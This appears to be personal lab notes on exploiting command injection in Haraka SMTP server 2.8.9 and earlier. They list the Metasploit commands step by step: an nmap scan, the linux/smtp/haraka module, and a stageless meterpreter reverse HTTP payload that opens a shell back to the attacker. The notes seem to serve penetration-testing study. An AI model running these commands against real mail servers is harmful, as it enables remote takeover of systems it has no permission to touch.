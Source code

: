 # SMTP EXPLOTATION

### simple mail transfer protocol
By default port 25 
can be configured to run on port TCP **465 AND 587**

### explotation HARAKA
```
Haraka is an open source high performance SMTP server developed in Node.js.
The Haraka SMTP server comes with a plugin for processing attachments.
Haraka versions V2.8.9 are vulnerable to command injection.
```

## VErsion 2.8.9 smtp and smaller


# DEMO
>msfconsole
>>workspace
>>>setg RHOSTS
>>>db_nmap -sS -sV -sC -O **<ip**
```bash
[*] Nmap: PORT STATE SERVICE VERSION
[*] Nmap: 25/tcp open smtp Haraka smtpd 2.8.8
[*] Nmap: MAC Address: 02:42:C0:56:33:03 (Unknown)
```
### exploit
>>>>linux/smtp/haraka
>>>>set SRV_PRT 9898
>>>>set email_to root@attackdefence.text
>>>>> set Payload linux/x64/meterpreter_reverse_http  
\THIS IS A STAGELESS PAYLOAD
>>>>set LHOST **<eth1>**
*tHIS NEEDS 8080 THATS WHY WE CHANGED SRV_PORT TO DIFFERENT ONE*
>>>>> RUN
